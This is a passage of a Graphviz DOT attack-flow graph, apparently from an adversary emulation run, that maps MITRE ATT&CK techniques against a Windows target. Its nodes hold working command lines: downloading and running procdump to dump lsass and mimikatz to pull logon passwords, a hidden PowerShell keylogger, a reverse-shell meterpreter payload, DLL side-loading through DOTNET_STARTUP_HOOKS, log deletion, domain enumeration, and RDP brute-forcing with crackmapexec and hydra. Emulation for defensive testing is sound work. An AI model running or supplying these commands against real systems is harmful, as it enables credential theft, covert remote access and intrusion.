	"attack-action--8b590284-298e-4cbf-8681-487447b1179d" -> "attack-action--97a309e2-aa92-43c9-beaf-442777fcc6b9" [label=effect]
	"attack-action--8b590284-298e-4cbf-8681-487447b1179d" -> "process--4620c1f5-cbfb-4383-abe4-f5ef4c865830" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--4620c1f5-cbfb-4383-abe4-f5ef4c865830" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">wget http:///procdump.exe -OutFile procdump.exe; .\\procdump.exe -accepteula -ma lsass.exe lsass.dmp ; ;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--97a309e2-aa92-43c9-beaf-442777fcc6b9" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1105: Ingress Tool Transfer</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1105: Ingress Tool Transfer</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--d2108b57-ae00-41bc-8b94-71ae29c4579b" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1003.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1003.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Mimikatz.exe logonpasswords</TD></TR></TABLE>> shape=plaintext]
	"attack-action--d2108b57-ae00-41bc-8b94-71ae29c4579b" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--d2108b57-ae00-41bc-8b94-71ae29c4579b" -> "attack-action--d77b0028-7eb3-42ca-8ce7-57c31b174e3f" [label=effect]
	"attack-action--d2108b57-ae00-41bc-8b94-71ae29c4579b" -> "attack-action--c9e8df25-ef99-4fc7-8aa7-dcea85e92b33" [label=effect]
	"attack-action--d2108b57-ae00-41bc-8b94-71ae29c4579b" -> "attack-action--9f52e474-356d-4ca4-873b-74d48c2485fa" [label=effect]
	"attack-action--d2108b57-ae00-41bc-8b94-71ae29c4579b" -> "process--97400cb6-c28b-4b14-8065-db3ac296f85e" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--97400cb6-c28b-4b14-8065-db3ac296f85e" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">wget http:///mimikatz.exe -OutFile mimikatz.exe; .\\mimikatz.exe &quot;privilege::debug&quot;<br/>&quot;sekurlsa::logonpasswords&quot; &quot;exit&quot;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--c9e8df25-ef99-4fc7-8aa7-dcea85e92b33" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1105: Ingress Tool Transfer</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1105: Ingress Tool Transfer</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--9f52e474-356d-4ca4-873b-74d48c2485fa" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1134: Access Token Manipulation</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1134: Access Token Manipulation</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--d77b0028-7eb3-42ca-8ce7-57c31b174e3f" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1056.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1056.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Run keylogger script in background</TD></TR></TABLE>> shape=plaintext]
	"attack-action--d77b0028-7eb3-42ca-8ce7-57c31b174e3f" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--d77b0028-7eb3-42ca-8ce7-57c31b174e3f" -> "attack-action--69105fdb-a582-4f3a-a100-53df8f5df4ec" [label=effect]
	"attack-action--d77b0028-7eb3-42ca-8ce7-57c31b174e3f" -> "attack-action--ea74310e-66ef-4f2b-ae48-af7514592d14" [label=effect]
	"attack-action--d77b0028-7eb3-42ca-8ce7-57c31b174e3f" -> "process--0f6b1dd4-db7a-4471-8ce4-7cb6c056081f" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--0f6b1dd4-db7a-4471-8ce4-7cb6c056081f" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">wget http:///Get-Keystrokes.ps1 -OutFile Get-Keystrokes.ps1; powershell.exe -windowstyle hidden -file Get-Keystrokes.ps1</TD></TR></TABLE>> shape=plaintext]
	"attack-action--ea74310e-66ef-4f2b-ae48-af7514592d14" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1105: Ingress Tool Transfer</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1105: Ingress Tool Transfer</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--69105fdb-a582-4f3a-a100-53df8f5df4ec" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1003.005</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1003.005</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">List credentials currently stored on the<br/>host via the built-in Windows utility<br/>cmdkey.exe</TD></TR></TABLE>> shape=plaintext]
	"attack-action--69105fdb-a582-4f3a-a100-53df8f5df4ec" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--69105fdb-a582-4f3a-a100-53df8f5df4ec" -> "attack-condition--8a75c029-29aa-4c3d-96f3-61290960b3e8" [label=condition]
	"attack-action--69105fdb-a582-4f3a-a100-53df8f5df4ec" -> "attack-action--b6c5179b-6b3c-47d4-a67f-47612e431034" [label=effect]
	"attack-action--69105fdb-a582-4f3a-a100-53df8f5df4ec" -> "process--3fb3c3eb-117b-4cc1-9cf5-5ea76ea0ed9d" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--3fb3c3eb-117b-4cc1-9cf5-5ea76ea0ed9d" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">cmdkey /list</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--8a75c029-29aa-4c3d-96f3-61290960b3e8" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ff99" COLSPAN="2"><B>Condition</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">create_file_on_host =&gt; echo r1Io96W<br/>&gt;<br/>C:\\Windows\\Logs\\T1070.004_1_logs.log</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--8a75c029-29aa-4c3d-96f3-61290960b3e8" -> "attack-action--49d56f71-a27c-421a-b8b5-4f82c9b3b805" [label=on_true]
	"attack-action--b6c5179b-6b3c-47d4-a67f-47612e431034" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1059.001: Command and Scripting Interpreter, PowerShell</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1059.001: Command and Scripting Interpreter, PowerShell</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--49d56f71-a27c-421a-b8b5-4f82c9b3b805" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1070.004</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1070.004</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Delete file from privleged<br/>&quot;logs&quot; folder</TD></TR></TABLE>> shape=plaintext]
	"attack-action--49d56f71-a27c-421a-b8b5-4f82c9b3b805" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--49d56f71-a27c-421a-b8b5-4f82c9b3b805" -> "attack-action--0c5d0dc8-4dca-4da1-8618-19f00a5c9b0f" [label=effect]
	"attack-action--49d56f71-a27c-421a-b8b5-4f82c9b3b805" -> "attack-action--99e6b6e3-a57a-4c8e-8cd0-ff5ad5cec8be" [label=effect]
	"attack-action--49d56f71-a27c-421a-b8b5-4f82c9b3b805" -> "process--92cfd39a-a0df-4550-9077-5fb3e382f894" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--92cfd39a-a0df-4550-9077-5fb3e382f894" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">del C:\\Windows\\Logs\\T1070.004_1_logs.log</TD></TR></TABLE>> shape=plaintext]
	"attack-action--99e6b6e3-a57a-4c8e-8cd0-ff5ad5cec8be" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1027.005: Obfuscated Files or Information: Indicator Removal from Tools</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1027.005: Obfuscated Files or Information: Indicator Removal from Tools</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--0c5d0dc8-4dca-4da1-8618-19f00a5c9b0f" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1204.002</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1204.002</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Run MSFVenom generated payload to get<br/>meterpreter session</TD></TR></TABLE>> shape=plaintext]
	"attack-action--0c5d0dc8-4dca-4da1-8618-19f00a5c9b0f" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--0c5d0dc8-4dca-4da1-8618-19f00a5c9b0f" -> "attack-action--9e501d2e-0b01-44fa-b488-d4e415cbdcea" [label=effect]
	"attack-action--0c5d0dc8-4dca-4da1-8618-19f00a5c9b0f" -> "attack-action--02983f7f-a850-443b-a869-8f5f4991eabc" [label=effect]
	"attack-action--0c5d0dc8-4dca-4da1-8618-19f00a5c9b0f" -> "process--2b54d45a-d49b-4a30-9b6f-fe3d04dac007" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--2b54d45a-d49b-4a30-9b6f-fe3d04dac007" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">wget http:///tcp_reverse.exe -OutFile tcp_reverse.exe; .\\tcp_reverse.exe</TD></TR></TABLE>> shape=plaintext]
	"attack-action--02983f7f-a850-443b-a869-8f5f4991eabc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1027: Obfuscated Files or Information</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1027: Obfuscated Files or Information</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--9e501d2e-0b01-44fa-b488-d4e415cbdcea" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1574.002</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1574.002</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">DLL Side-Loading using the dotnet<br/>startup hook environment variable<br/>through meterpreter session</TD></TR></TABLE>> shape=plaintext]
	"attack-action--9e501d2e-0b01-44fa-b488-d4e415cbdcea" -> "attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=asset]
	"attack-action--9e501d2e-0b01-44fa-b488-d4e415cbdcea" -> "attack-action--27f9d07f-36b6-4401-860a-c69f80927669" [label=effect]
	"attack-action--9e501d2e-0b01-44fa-b488-d4e415cbdcea" -> "process--29315844-4bf6-4997-9d9a-1c33df2f51e6" [label=process]
	"attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Attacker</TD></TR></TABLE>> shape=plaintext]
	"process--29315844-4bf6-4997-9d9a-1c33df2f51e6" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">tmux send-keys -t metasploit_handler &#x27;upload C:\\\\Program Files\\\\dotnet\\\\T1574_002.dll&#x27; C-m ;tmux send-<br/>keys -t metasploit_handler &#x27;execute -f powershell.exe -Command &quot;set DOTNET_STARTUP_HOOKS=C:\\\\Program<br/>Files\\\\dotnet\\\\T1574_002.dll&quot;&#x27; C-m ;tmux send-keys -t metasploit_handler &#x27;execute -f dotnet -h &gt;<br/>nul&#x27; C-m ;tmux send-keys -t metasploit_handler &#x27;execute f powershell.exe -Command &quot;echo 1&quot;&#x27; C-m</TD></TR></TABLE>> shape=plaintext]
	"attack-action--27f9d07f-36b6-4401-860a-c69f80927669" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1018</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1018</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">List servers in domain Metasploit<br/>enum_ad_computers</TD></TR></TABLE>> shape=plaintext]
	"attack-action--27f9d07f-36b6-4401-860a-c69f80927669" -> "attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=asset]
	"attack-action--27f9d07f-36b6-4401-860a-c69f80927669" -> "attack-action--32b23ab9-8f37-4684-b181-f71e3c33152d" [label=effect]
	"attack-action--27f9d07f-36b6-4401-860a-c69f80927669" -> "attack-action--352cc9d8-04fc-423a-a0ed-e82a1a7e3384" [label=effect]
	"attack-action--27f9d07f-36b6-4401-860a-c69f80927669" -> "attack-action--f5499e14-83e3-4379-b919-c24298e64387" [label=effect]
	"attack-action--27f9d07f-36b6-4401-860a-c69f80927669" -> "process--ee499aab-0628-4533-9a19-fc2f74a12a09" [label=process]
	"attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Attacker</TD></TR></TABLE>> shape=plaintext]
	"process--ee499aab-0628-4533-9a19-fc2f74a12a09" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">tmux send-keys -t metasploit_handler &#x27;sessions -s post/windows/gather/enum_ad_computers&#x27; C-m</TD></TR></TABLE>> shape=plaintext]
	"attack-action--352cc9d8-04fc-423a-a0ed-e82a1a7e3384" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1087.002: Account Discovery</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1087.002: Account Discovery</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--f5499e14-83e3-4379-b919-c24298e64387" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action:  Domain Account</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT"> Domain Account</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--32b23ab9-8f37-4684-b181-f71e3c33152d" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1049</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1049</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">List TCP connections Metasploit post<br/>tcpnetstat</TD></TR></TABLE>> shape=plaintext]
	"attack-action--32b23ab9-8f37-4684-b181-f71e3c33152d" -> "attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=asset]
	"attack-action--32b23ab9-8f37-4684-b181-f71e3c33152d" -> "attack-action--440b6bf8-6682-42ef-bf94-67dd228c82d4" [label=effect]
	"attack-action--32b23ab9-8f37-4684-b181-f71e3c33152d" -> "process--ea93882f-c658-4910-a9e5-3c9d148ce438" [label=process]
	"attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Attacker</TD></TR></TABLE>> shape=plaintext]
	"process--ea93882f-c658-4910-a9e5-3c9d148ce438" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">tmux send-keys -t metasploit_handler &#x27;sessions -s post/windows/gather/tcpnetstat&#x27; C-m</TD></TR></TABLE>> shape=plaintext]
	"attack-action--440b6bf8-6682-42ef-bf94-67dd228c82d4" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1049</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1049</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Enumerate Domain Controllers</TD></TR></TABLE>> shape=plaintext]
	"attack-action--440b6bf8-6682-42ef-bf94-67dd228c82d4" -> "attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=asset]
	"attack-action--440b6bf8-6682-42ef-bf94-67dd228c82d4" -> "attack-action--4e39efd6-cb67-4c6f-be07-9fe1aba94527" [label=effect]
	"attack-action--440b6bf8-6682-42ef-bf94-67dd228c82d4" -> "process--137e8d3d-0121-4589-b5bb-f52d5790e034" [label=process]
	"attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Attacker</TD></TR></TABLE>> shape=plaintext]
	"process--137e8d3d-0121-4589-b5bb-f52d5790e034" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Net group &quot;Domain Controllers&quot; /domain ;wget http:///winPEASx64.exe -OutFile winPEASx64.exe; .\\winPEASx64.exe<br/>; ;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--4e39efd6-cb67-4c6f-be07-9fe1aba94527" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1110.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1110.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">RDP brutforce using crackmapexec</TD></TR></TABLE>> shape=plaintext]
	"attack-action--4e39efd6-cb67-4c6f-be07-9fe1aba94527" -> "attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=asset]
	"attack-action--4e39efd6-cb67-4c6f-be07-9fe1aba94527" -> "attack-action--2c68ca29-923c-4e45-8f84-b314868bae4b" [label=effect]
	"attack-action--4e39efd6-cb67-4c6f-be07-9fe1aba94527" -> "process--0889c0d8-050c-4630-b9a8-0a5cb73fb09c" [label=process]
	"attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Attacker</TD></TR></TABLE>> shape=plaintext]
	"process--0889c0d8-050c-4630-b9a8-0a5cb73fb09c" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">head -n 40 /usr/share/wordlists/rockyou.txt &gt; pass.list ;echo &quot;2138&quot; &gt;&gt; pass.list ;crackmapexec rdp<br/>-u root -p pass.list 10.0.0.10 --rdp-timeout 2 ;hydra -l root -P pass.list rdp://10.0.0.10</TD></TR></TABLE>> shape=plaintext]
